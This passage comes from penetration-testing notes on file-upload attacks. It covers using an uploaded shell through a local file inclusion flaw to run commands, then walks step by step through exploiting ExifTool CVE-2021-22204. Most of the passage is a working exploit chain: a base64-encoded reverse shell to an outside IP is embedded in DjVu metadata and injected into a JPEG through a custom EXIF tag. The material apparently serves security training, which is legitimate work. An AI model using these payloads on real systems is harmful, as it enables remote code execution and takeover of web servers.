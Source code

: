 This file on its own is harmless and would not affect normal web application. However, if we combine it with an LFI flaw, then we may be able to achieve RCE after finding its [uploads directory](file-uploads.md#uploads-directory).

```bash
# RCE
curl http://<ip:port>/index.php?language=./profile_images/shell.gif&cmd=id
```

### Exiftool

&#x20;ExifTool `≤12.23` is vulnerable to a RCE vulnerability ([CVE-2021-22204](https://nvd.nist.gov/vuln/detail/cve-2021-22204)), caused by unsafe parsing of malicious metadata in **DjVu files disguised as JPEGs**. When ExifTool processes such a file—often automatically in image upload workflows—it can execute arbitrary code embedded in the metadata.

Many CMS platforms and web apps use ExifTool for image handling, making this vulnerability exploitable via unauthenticated file uploads if no proper validation exists. Exploited code runs with the privileges of the calling process, typically the web server. The injection process below is taken from INE's [ExifTool Command Injection (CVE-2021-22204)](https://app.gitbook.com/o/asuXdppEfmgK9Dr478w0/s/mjLkek16kB60c2WFd5lf/) blog post.&#x20;

{% code overflow="wrap" %}
```bash
# Encode reverse shell payload to Base64 for safe injection
$ echo 'sh -i >& /dev/tcp/192.168.45.170/443 0>&1' | base64
c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC40NS4xNzAvNDQzIDA+JjEK

# Create metadata payload with embedded system call to decode and execute shell
$ cat payload
(metadata "\c${system('echo c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC40NS4xNzAvNDQzIDA+JjEK|base64 -d|bash')};")

# Compress the payload into bzz format (required by DjVu)
$ bzz payload payload.bzz

# Create malicious DjVu file with injected payload
$ djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz

# Confirm file type is valid DjVu
$ file exploit.djvu
exploit.djvu: DjVu image or single page document

# Define a custom EXIF tag for injecting malicious DjVu file
$ cat config_file
%Image::ExifTool::UserDefined = (
    # All EXIF tags are added to the Main table, and WriteGroup is used to
    # specify where the tag is written (default is ExifIFD if not specified):
    'Image::ExifTool::Exif::Main' => {
        # Example 1.  EXIF:NewEXIFTag
        0xc51b => {
            Name => 'HasselbladExif',  # Custom tag name
            Writable => 'string',
            WriteGroup => 'IFD0',
        },
    },
);
1; # Required line to end the config

# Inject DjVu payload into a JPEG image via the custom EXIF tag
$ exiftool -config config_file '-HasselbladExif<=exploit.djvu' duck.jpg
    1 image files updated
```
{% endcode %}
